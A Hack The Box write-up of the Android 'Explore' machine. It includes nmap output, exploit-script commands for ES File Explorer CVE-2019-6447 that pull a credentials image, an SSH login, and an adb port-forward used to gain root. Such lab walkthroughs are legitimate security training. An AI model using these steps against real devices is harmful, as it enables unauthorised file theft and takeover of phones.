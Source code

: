 ## explore writeup

 This box is a mobile system, a phone and it was my first mobile box on HTB. It's not a complex box, but it's interesting.

1. first of all do nmap scan in this box.

`nmap -T4 -sCV -p- -oN explore 10.10.10.247`

the result will be this.
 ````bash
Nmap 7.91 scan initiated Fri Sep  3 20:32:32 2021 as: nmap -T4 -sCV -p- -oN explore 10.10.10.247
Warning: 10.10.10.247 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.247
Host is up (0.71s latency).
Not shown: 65485 closed ports, 46 filtered ports
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
42135/tcp open  http    ES File Explorer Name Response httpd
42893/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:24:51 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Fri, 03 Sep 2021 15:24:52 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Fri, 03 Sep 2021 15:24:58 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:18 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:24:59 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:19 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:22 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:21 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=9/3%Time=61323A6F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port42893-TCP:V=7.91%I=7%D=9/3%Time=61323A70%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x200
SF:3\x20Sep\x202021\x2015:24:51\x20GMT\r\nContent-Length:\x2022\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412\x
SF:20Precondition\x20Failed\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2015:24
SF::52\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1\.
SF:0\x20501\x20Not\x20Implemented\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2
SF:015:24:58\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/plai
SF:n;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x20
SF:supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2015:24:59\x20GMT\r\nConte
SF:nt-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\
SF:nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:\
SF:x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDat
SF:e:\x20Fri,\x2003\x20Sep\x202021\x2015:25:18\x20GMT\r\nContent-Length:\x
SF:2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:
SF:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq,
SF:DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x2003\x20Sep\x2
SF:02021\x2015:25:19\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\x
SF:20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?\
SF:0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSer
SF:verCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x2003
SF:\x20Sep\x202021\x2015:25:21\x20GMT\r\nContent-Length:\x2054\r\nContent-
SF:Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\
SF:nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mstsh
SF:ash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Fri,\x2003\x20Sep\x202021\x2015:25:22\x20GMT\r\nContent-Length:\
SF:x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0e
SF:\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Fri Sep  3 21:10:42 2021 -- 1 IP address (1 host up) scanned in 2289.50 seconds
````
according to the information presented by the scan, this is a phone.
researching about the identified services i found some interesting info.

`JSONAPI is a plugin for Bukkit that allows you to access data and other information about your server and your players through a simple, yet secure, HTTP API. This allows you to make awesome websites, iPhone apps, and a way for your players to purchase goods online and automatically receive them in game.`

02. Port 42135 is running a ES File Explorer this creates an HTTP service bound to port 59777 and doing a search you can find a public exploit (CVE-2019-6447).

![task 2](https://github.com/geeksniper/my-HackTheBox-writeup/blob/63a7303774413edb0262d1b8d9171b4e54e30c41/explore/explore-img/02.%20publicexploit-of-es-file-explorer.png)

03. Through this exploit I could read some files.

![task 3](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/03.%20using-exploit-list-files.png)

04. after that list pics and i got interesting .jpg file.

![task 4](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/04.%20list-pics.png)

05. now i download the file

````bash
python3 explorer-exploit.py listPics 10.10.10.247

python3 explorer-exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
````
![task 5](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/05.%20downlaod-jpg.png)

06. I open the .jpg file and This .jpg has notes looking like credentials.

![task 6](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/06.%20open-this-file-get-credential-of-ssh.png)

07. As enumerated before, the SSH service is running on port 2222 and using this credentials we were able to login successfully.

````bash
ssh kristi@10.10.10.247 -p 2222
````
![task 7](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/07.%20login-ssh-and-get-into-it.png)

08. Now I'm able to inside this machine and able to find the user flag at /sdcard.

![task 8](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/08.%20got-user-flag.png)

09. Looking for a way to own the Android system I found some things about Android Debug Bridge (adb) - a development tool that allows communication between an Android device and a computer as a shell.
As some documentations the adb opens a localport (as "system") 5555 and its possible to connect on it through USB setting the configured port, but is possible to bypass this "restriction" doing a portfoward to our machine, in this case, using SSH to do that.

```bash
ssh kristi@10.10.10.247 -L 5555:localhost:5555 -p 2222
````
![task 9](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/09.%20connect-with-local-port.png)

10. After insert password to stabilish connection the SSH shell starts, but in another terminal its possible to see the localhost port 5555 fowarded to our machine. With that, its possible to interage on this port and we will use adb to do that.adb is running with privileges so we can elevate our privilege to root.

![task 10](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/10.%20connect-with-adb-and-got-root-access.png)

11. And now as root I could found the root flag using find command to search it.

![task 11](https://github.com/geeksniper/my-HackTheBox-writeup/blob/0a9f5f5aa62688642d5c7b14b13e2762b94cd403/explore/explore-img/11.%20Got-root-flag.png)

## finished
